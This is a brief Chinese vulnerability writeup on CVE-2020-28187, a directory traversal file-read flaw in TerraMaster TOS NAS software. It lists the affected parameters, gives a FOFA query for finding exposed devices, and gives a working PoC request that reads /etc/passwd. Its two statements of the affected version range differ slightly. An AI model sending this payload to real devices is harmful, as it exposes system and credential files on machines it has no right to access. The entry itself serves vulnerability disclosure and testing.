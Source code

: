# TerraMaster TOS 任意文件读取漏洞 CVE-2020-28187

## 漏洞描述

TerraMaster TOS <= 4.2.06中的多个目录遍历漏洞允许远程身份验证的攻击者通过/tos/index.php?editor/fileGet路径下的filename参数、 /include/ajax/logtable.php路径下的Event参数和/include/core/index.php路径下的opt参数，读取文件系统中的任何文件。

## 漏洞影响

> TerraMaster TOS < 4.2.06

## FOFA

> "TerraMaster" && header="TOS"

## 漏洞复现

验证漏洞的POC为

```
/tos/index.php?editor/fileGet&filename=../../../../../../etc/passwd
```

![](resource/TerraMaster-TOS/tm-8.png)


